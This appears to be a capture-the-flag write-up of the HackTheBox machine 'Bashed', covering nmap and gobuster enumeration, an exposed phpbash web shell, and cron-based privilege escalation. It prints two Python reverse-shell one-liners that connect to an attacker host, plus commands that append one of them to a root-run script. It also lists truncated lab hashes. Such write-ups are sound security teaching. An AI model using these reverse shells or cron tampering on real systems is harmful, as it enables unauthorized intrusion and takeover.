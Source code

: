 [HackTheBox] Bashed
===============
date: 25/Jun/2020
summary: This is the summary for an awesome post.
tags: hackthebox, writeups

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_bashed/infocard.png)

This is a writeup for HTB VM [Bashed](https://www.hackthebox.eu/home/machines/profile/118). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_bashed/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.80 scan initiated Fri May 29 19:04:11 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/xml/_quick_tcp_nmap.xml 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.32s latency).
Scanned at 2020-05-29 19:04:24 IST for 46s
Not shown: 999 closed ports
Reason: 999 conn-refused
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 29 19:05:10 2020 -- 1 IP address (1 host up) scanned in 59.85 seconds
```

2\. We see that the port `80/tcp` is the only open port on this machine. Let's run `gobuster` and find interesting directories on this web server:  
```
gobuster dir -u http://10.10.10.68:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -l -s "200,204,301,302,307,403,500" -x "txt,html,php,asp,aspx,jsp" -z -o "/home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/tcp_80_http_gobuster_dirbuster.txt"
```

3\. We find a few directories from `gobuster` scan and the `/dev` directory lists two interesting files: `phpbash.min.php` and `phpbash.php`  
```
$ cat results/10.10.10.68/scans/tcp_80_http_gobuster_dirbuster.txt 
  http://10.10.10.68:80/images (Status: 301) [Size: 311]
  http://10.10.10.68:80/index.html (Status: 200) [Size: 7742]
  http://10.10.10.68:80/about.html (Status: 200) [Size: 8190]
  http://10.10.10.68:80/contact.html (Status: 200) [Size: 7802]
  http://10.10.10.68:80/uploads (Status: 301) [Size: 312]
  http://10.10.10.68:80/php (Status: 301) [Size: 308]
  http://10.10.10.68:80/css (Status: 301) [Size: 308]
  http://10.10.10.68:80/dev (Status: 301) [Size: 308]
  http://10.10.10.68:80/js (Status: 301) [Size: 307]
  http://10.10.10.68:80/config.php (Status: 200) [Size: 0]
  http://10.10.10.68:80/fonts (Status: 301) [Size: 310]
  http://10.10.10.68:80/single.html (Status: 200) [Size: 7476]
```

![writeup.enumeration.steps.3.1](/static/files/posts_htb_bashed/screenshot03.png)  

![writeup.enumeration.steps.3.2](/static/files/posts_htb_bashed/screenshot01.png)  

4\. We find that [`phpbash`](https://github.com/Arrexel/phpbash) is a minimal web shell that can give us interactive access to the target machine.  

![writeup.enumeration.steps.4.1](/static/files/posts_htb_bashed/screenshot02.png)  

### Findings
#### Open Ports:
```
80/tcp  | http      | 2.4.18 ((Ubuntu))
```
#### Files
```
/dev/phpbash.min.php
/dev/phpbash.php
```

## Phase #2: Exploitation
1\. We visit the `/dev/phpbash.min.php` page and find the `phpbash` interactive web shell UI which enables command execution and further enumeration:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_bashed/screenshot05.png)  

2\. We use a Python reverse shell to obtain interactive access on this system:  
```
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_bashed/screenshot06.png)  

## Phase #2.5: Post Exploitation
```
www-data@bashed> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed>  
www-data@bashed> uname
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@bashed>  
www-data@bashed> ifconfig
ens33   Link encap:Ethernet  HWaddr 00:50:56:b9:44:62  
        inet addr:10.10.10.68  Bcast:10.10.10.255  Mask:255.255.255.255
        inet6 addr: dead:beef::250:56ff:feb9:4462/64 Scope:Global
        inet6 addr: fe80::250:56ff:feb9:4462/64 Scope:Link
        UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
        RX packets:83524 errors:0 dropped:332 overruns:0 frame:0
        TX packets:78785 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1000 
        RX bytes:5305396 (5.3 MB)  TX bytes:8408691 (8.4 MB)

lo      Link encap:Local Loopback  
        inet addr:127.0.0.1  Mask:255.0.0.0
        inet6 addr: ::1/128 Scope:Host
        UP LOOPBACK RUNNING  MTU:65536  Metric:1
        RX packets:444689 errors:0 dropped:0 overruns:0 frame:0
        TX packets:444689 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1 
        RX bytes:32908196 (32.9 MB)  TX bytes:32908196 (32.9 MB)
www-data@bashed>  
www-data@bashed> users
root
arrexel
scriptmanager
```

## Phase #3: Privilege Escalation
1\. We find that the user `www-data` can run any command as user `scriptmanager` using `sudo`:  
```
sudo -l
sudo -u scriptmanager /bin/bash
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_bashed/screenshot07.png)  

![writeup.privesc.steps.1.2](/static/files/posts_htb_bashed/screenshot10.png)  

2\. We find an interesting directory `/scripts` which has two files in it. One is a Python script `test.py` owned by user `scriptmanager` and other is `test.txt` owned by `root`. We use a script `CronJobCheckser.sh` and find that there's a `root` owned cronjob that runs the `test.py` script and which creates the `test.txt` file.  
```
ls -la /scripts
cat /scripts/test.py
```

![writeup.privesc.steps.2.1](/static/files/posts_htb_bashed/screenshot08.png)  

![writeup.privesc.steps.2.2](/static/files/posts_htb_bashed/screenshot09.png)  

![writeup.privesc.steps.2.3](/static/files/posts_htb_bashed/screenshot11.png)  

3\. We can now edit this file to execute a reverse shell that gives us elevated privileges on the system:  
```
nc -nlvp 9999
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >>/scripts/test.py
```

![writeup.privesc.steps.3.1](/static/files/posts_htb_bashed/screenshot12.png)  

4\. As soon as the cronjob runs, we get the elevated shell and can now view the `root.txt` flag file:  
```
cat /root/root.txt
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_bashed/screenshot13.png)  

![writeup.privesc.steps.4.2](/static/files/posts_htb_bashed/screenshot14.png)  

## Learning/Recommendation
* Production web server instances should not host developement tools like a PHP web shell. It allowed the attacker to gain interactive access of the target system.
* Service users should not be allowed to use `sudo`. This misconfiguration enabled attacker to switch to a more privileged user account.
* Cronjob files should be owned by the same user that will be allowed to run it. The attacker was able to use this misconfiguration to modify a file they own and get it executed by `root` user.

## Loot
### Hashes
```
arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.:17504:............
scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk.........................
```
### Flags
```
/home/arrexel/user.txt: 2c281f318555dbc1b8569...........
/root/root.txt: cc4f0afe3a1026d402ba10..........
```

## References
* <https://www.hackthebox.eu/home/machines/profile/118>  
* <https://medium.com/@ranakhalil101/hack-the-box-bashed-writup-a8e51a2914c2>  
* <https://0xdf.gitlab.io/2018/04/29/htb-bashed.html>  
